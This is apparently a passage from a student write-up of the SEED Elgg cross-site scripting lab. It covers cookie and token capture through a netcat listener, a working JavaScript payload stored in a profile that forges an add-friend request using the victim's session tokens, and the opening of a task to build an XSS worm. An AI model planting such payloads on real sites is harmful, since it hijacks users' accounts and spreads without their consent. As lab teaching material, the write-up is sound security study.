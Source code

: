 The nc output seems like this -

```
GET /?c=1520227817&0fab54e97b2fa75c39d298de602a5939 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

The tokens are separated by the `&`. If the web app does not match passwords (or the case when we have the password of the intended victim), we can simply use a python script to use the authentication and use `requests` module to send a `GET` request and the attack will have been executed. The code will take the input from the nc command and the output of nc command can be split into sections to get the required cookies and the tokens. Then the script can be used to send a request to the desired link using the HTTPBasicAuth module and the cookies and parameters set along with the `GET` request. This can be used in cases when the script file we make is bigger than the allowed number of characters inside the text box that has the vulnerability.

To actually make other accounts execute the malicious code that can trigger them making the attacker their friend, the code needs to be in the same place where the previous codes to obtain cookie and the tokens were placed. This is the case when the password of the victim is not held with the attacker.

For this we can use the following code in javascript using AJAX and then store it into the ‘about me’ section of `user11`. The code is as follows -

```html
<script type="text/javascript">
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=43"+ts+token;
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/user11");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
</script>
```

This code forms the GET request to duplicate the add friend action of the web app. When the victim say `alice` views the homepage of the attacker `user11`, her browser will read this code and execute the javascript inside the tags. Since the user `alice` is logged in while the code is executed, the attack will run smoothly and `user11` will be added to the friend list of `alice`.

## Task 5 : Writing an XSS worm

This task is about coding a worm which can change the information of an account in the web app. This requires the analysis of changing the ‘about me’ section in the web app. The attacker `user11` uses the other account `samy` to update the ‘about me’ section to study the process. The ‘inspect element’ reveals that the process is a POST request which requires few parameters from the document. These parameters are specific to the session and the user, therefore, searching the parameters in the document, they are set as follows - 1. timestamp and token i.e., `__elgg_ts` and `__elgg_token` are stored in the document under `elgg.security.token` section in the html document. 2. user name of the session user is in JSON format variable called `elgg.session.user`. 3. guid of the session user is also in the `elgg.session.user` section. 4. the parameter `description` is the one that specifies what data is stored in the text field of the ‘about me’ section. 5. the `description` parameter has a control access field called `accesslevel[description]` which is 2 for private users, 1 for friends, 0 for others - has to be set to 2 always for changing the data in the ‘about me’ section.
